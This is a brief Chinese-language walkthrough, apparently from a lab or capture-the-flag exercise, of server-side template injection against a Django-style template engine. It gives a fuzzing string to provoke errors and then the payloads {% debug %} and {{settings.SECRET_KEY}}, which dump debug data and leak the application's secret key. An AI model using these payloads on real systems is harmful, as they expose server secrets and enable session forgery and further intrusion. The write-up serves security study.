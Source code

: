 先 fuzz 测试报错

```
${{<%[%'"}}%\
```

<img src=".\图片\Snipaste_2023-08-01_14-55-00.png" alt="Snipaste_2023-08-01_14-55-00" style="zoom:80%;" />

经过查阅文档得知，有一个内置的模板标签{% debug %}，可以显示调试信息

```
{% debug %}
```

然后又查阅文档得知，`{{settings.SECRET_KEY}}` 表达式可以查看指定的环境变量

```
{{settings.SECRET_KEY}}
```

<img src=".\图片\Snipaste_2023-08-01_15-01-23.png" alt="Snipaste_2023-08-01_15-01-23" style="zoom:80%;" />
